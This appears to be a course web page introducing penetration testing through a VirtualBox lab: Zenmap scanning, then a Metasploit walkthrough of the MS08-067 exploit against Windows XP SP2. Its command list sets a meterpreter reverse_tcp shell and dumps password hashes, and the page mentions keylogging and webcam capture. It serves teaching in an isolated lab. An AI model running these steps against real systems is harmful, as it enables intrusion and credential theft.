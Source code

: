 ```yaml
---
layout: course
course: active
title: Penetration Testing
description: Overview of Cyber Security Topics and Career Paths
permalink: /penetration-testing/
penetration-testing: show
---
```

<div class="embed-responsive embed-responsive-16by9">
  <iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/BdSCIn50xjc" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
</div><br>

## Overview
A penetration tester tests the security of applications or networks to find vulnerabilities. Finding vulnerabilities is key to staying a step ahead of hackers who would want to do damage. In order to protect against a hacker, you must in a way think like a hacker. To get a better idea of how hacking works we will go through a demonstration of an attack.

## Environment Setup
In a previous section we setup our simulation environment with Virtualbox. For our penetration tests we want to create an isolated network to communicate between our two systems. We will be using Kali Linux and a Windows XP SP2 (Service Pack 2) machine.

If you want to following along a copy of Windows XP SP2 on ebay for less than $20. Remember this demo lab is optional so don't worry about trying to find a copy of Windows if you aren't trying this out yourself. We will use Kali for a later lab so make sure that is set up.

There are a couple of settings we need to take a look at to setup a localized network. Go to the global network settings in Virtualbox. The host network adapter and DCHCP server must be fixed. Once that is done we can go into the network settings on Kali and Windows and change them to host only adapters. Now Kali and Windows XP can communicate back and forth without accessing our actual network.

## Reconnaissance & Scanning
How do we find out who is vulnerable? Before we start actually trying to attack the Windows machine, we must know more about it. To find out more about systems on a network we go through a phases of Reconnaissance and Scanning & Enumeration. What makes these different?

### Reconnaissance
Reconnaissance is a completely passive in that we will look at all available information without actually reaching out to target systems. Usually this means finding out as much as possible about the target systems or applications by searching online.

### Scanning & Enumeration
The scanning phase is when we begin reaching out to systems on the network. This is considered our first active approach locating vulnerabilities in the target systems. In our case we are looking for specific information about about the Windows machine. Things like its location on the network (IP Address), operating system version, and available ports. With this knowledge we can narrow our focus and choose the correct exploit for the particular target machine. To scan the network we will use a tool called ZenMap.

#### Performing the Scan
Open up ZenMap by typing `zenmap &` in the terminal. We will scan a range of IP Addresses based on what our Kali Linux IP. For instance, my Kali Linux IP is 192.168.56.1 so I will scan IPs ending in 1 through 10 `192.168.56.1-10`. Enter your IP range into the target area.

Now all we need to do is choose the intensity of our scan. The drop down on the right of the target box shows us the variety of scans we can use. The three scans we will use are a ping scan, quick scan, and an intense scan. These scans describe how much information we will look get based on the scan. The increased intensity also increases the amount of noise being made during the scan.

- Ping Scan
  * A ping scan just checks to see if the door is there. So any available systems on the network will show up. In our case that should be two: Kali and Windows.
- Quick Scan
  * The quick scan will reveal what ports are available for each system. When we perform our exploit we will be connecting to one of those open ports to drop our payload.
- Intense Scan
  * The intense scan will give the most information. It will give open ports, traceroute, IP address, and operating system information. The results for the intense scan verify that the system on the local network is Windows XP SP2. This is important information since our exploit only works on Windows systems SP2 and before.

## Lab: Ms08_067 Attack Demo
This lab will go through the meat of the attack where the action happens. This is the gaining access phase.

<br>
<div class="embed-responsive embed-responsive-16by9">
  <iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/q-ZrX41cIOA" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
</div><br><br>


### Gaining Access
What does gaining access to a system look like. Normally you use your computer through a GUI (Graphical User Interface) where you can click on icons to navigate. Gaining access to the Windows XP system won't look the same. Our access will be restricted to just the command line interface. Good news is we can still do just as much on the command line as we can we the interface.

### Metasploit
Metasploit is a penetration testing framework that comes with Kali. We will use metasploit to configure and run our attack since it has a large database of exploits and payloads for us to pull from. Once we run the exploit a new console will pop up in our terminal. This console is part of the meterpreter payload.

At this point we have access to the windows system and have access to the windows terminal. From here we can modify information, access data, and perform other attacks. To perform additional attacks we will switch to the meterpreter console inside our terminal. Meterpreter gives us more tools to work with. We can now perform keylogging, webcam and screen recording and other attacks.

### Lab Command List (tabbed area for each section of lab)
~~~~
$ msfconsole
$ search ms08_067_netapi
$ use exploit/windows/smb/ms08_067_netapi
$ set payload windows/meterpreter/revers_tcp
$ set lhost
$ set rhost
$ show targets
$ set target {# correlated with victim system's OS}
$ show options
$ exploit

[in meterpreter console]
> ?
> run windows terminal
> create hack.txt
> screen shot
> hash dump
~~~~

## Exercise Walkthrough
### Who is on the network?
This exercise explores how we can identify vulnerable systems by network scanning. Network scanning is a useful tool for understanding how a network is laid out. Like in the attack demo we can do this scanning with Zenmap.

### Tools
- Virtualbox
- Kali Linux
- ZenMap

### Exercise Goals
- Scan the network for a system
- Identify key information about the system (IP Address, open ports, OS version etc.)

### Exercise Questions
For this assignment we will be scanning [scanme.nmap.org](scanme.nmap.org) to get familiar with scanning. Run a ping, quick, and intense scan. What is the IP Address of the website? Which ports are open and which are closed?. What operating system and version is the website running?

## Additional Resources
For more information about port scanning check out these articles:
